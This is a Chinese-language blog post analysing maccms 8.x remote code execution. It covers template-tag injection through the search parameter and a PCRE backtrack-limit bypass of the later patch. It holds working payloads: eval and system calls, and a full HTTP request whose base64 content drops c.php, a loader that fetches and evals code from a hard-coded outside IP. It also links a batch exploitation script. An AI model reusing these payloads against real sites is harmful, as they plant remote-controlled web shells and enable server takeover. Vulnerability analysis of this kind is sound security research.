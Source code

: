 # maccms 8.x 漏洞

## 0x01 前言

太久太久没写文章。。。最近还发布了一些法律，许多网站都关了，我还在考虑是否去开这个博客，因为分享技术还得承担法律责任，不过不会再公布具有攻击性的工具或者exp。

这个maccms的RCE是最近被绕过了，写一篇分析文。环境搭建的也不多写了，之前写的一篇Maccms的sql注入[http://getshe11.com/2018/08/26/Maccms-sql-injection-analysis/](https://link.zhihu.com/?target=http%3A//getshe11.com/2018/08/26/Maccms-sql-injection-analysis/)有讲到，本文用到的源码可以去[https://github.com/yaofeifly/Maccms8.x](https://link.zhihu.com/?target=https%3A//github.com/yaofeifly/Maccms8.x)这里下载，绕过的源码可以去[https://github.com/magicblack/maccms8](https://link.zhihu.com/?target=https%3A//github.com/magicblack/maccms8)下载

## 0x02 漏洞复现

1. [https://github.com/yaofeifly/Maccms8.x](https://link.zhihu.com/?target=https%3A//github.com/yaofeifly/Maccms8.x)下载搭建好之后
2. 用hackbar

```
url：http://127.0.0.1/maccms888/?m=vod-search

post：wd={if-A:phpinfo()}{endif-A}

{if-A:@eval(system('ls /');)}{endif-A}
{if-A:echo "My name is "}{endif-A}
```



3. 可以看到phpinfo执行了



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718360.jpeg)



## 0x03 漏洞分析

phpstorm 调试走起，我忽略掉一些步骤，比如怎么用phpstorm 调式[http://getshe11.com/2018/04/10/Breakpoint%20debugging%20with%20phpstorm+xdebug/](https://link.zhihu.com/?target=http%3A//getshe11.com/2018/04/10/Breakpoint%20debugging%20with%20phpstorm%2Bxdebug/) 这里有写到。

这里不下断点直接从开头断下，具体设置在[http://getshe11.com/2018/12/22/ThinkPHP5-remote-code-execution-vulnerability-dynamic-analysis/](https://link.zhihu.com/?target=http%3A//getshe11.com/2018/12/22/ThinkPHP5-remote-code-execution-vulnerability-dynamic-analysis/) 有提到。



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718600.jpeg)



当执行到`require(MAC_ROOT.'/inc/common/360_safe3.php');`我们走进去看下，可以看到匹配规则并没有匹配到我们输入的字符,然后继续往下走了。



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718208.jpeg)



到模板内容替换这一块就不跟大家继续走了，大家有时间可以自己走一遍程序的替换流程，我们直接往下走



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718195.jpeg)



到这里，我们F7跟进去



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718099.jpeg)



F8往下走到`eval`这里可以看到，除了在接受get、post数据那一块有过滤sql语句的检测，到这里没有任何过滤就直接执行了。



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718627.jpeg)



## 0x04 80w个a绕过匹配漏洞

这个漏洞很有趣，我居然没想到用的是一个P神之前发的一篇文章的[PHP利用PCRE回溯次数限制绕过某些安全限制](https://link.zhihu.com/?target=https%3A//www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

这个是Maccms8最新的一个版本里面存在，这个也是修复上面的rce的漏洞的版本。

payload：

```http
POST /index.php?m=vod-search HTTP/1.1
Host: xxxx
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.79 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 800580

wd=union%28这里有80w个a%E4%B8%AAa%29%7Bif-A%3Aprint%28fputs%28fopen%28base64_decode%28Yy5waHA%29%2Cw%29%2Cbase64_decode%28PD9waHAgZnVuY3Rpb24gcygpeyRjb250ZW50cyA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdodHRwOi8vNjcuMTk4LjE4Ni40MjoyOTgwOC9zL2FkbWluZTIxLnR4dCcpO2EoJGNvbnRlbnRzKTt9ZnVuY3Rpb24gYSgkY29ubil7JGIgPSAnICc7ZXZhbCgkYi4kY29ubi4kYik7fXMoKTsgPz4x%29%29%29%7D%7Bendif-A%7D"}&submit=%E6%90%9C+%E7%B4%A2
```

执行后会在本目录下生成一个c.php



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718933.jpeg)



这里可以用burp上面的功能来实现这80w个a



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718531.jpeg)



也可以去用我写的一个批量脚本：[https://github.com/F0r3at/Python-Tools/blob/master/maccms8_rce.py](https://link.zhihu.com/?target=https%3A//github.com/F0r3at/Python-Tools/blob/master/maccms8_rce.py)

不过现在官网github上面修复了，在这里限制了字符的长度。



![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203011718545.jpeg)



## 0x05 结束

最近因为工作，调整不过来，以后会恢复持续输出的！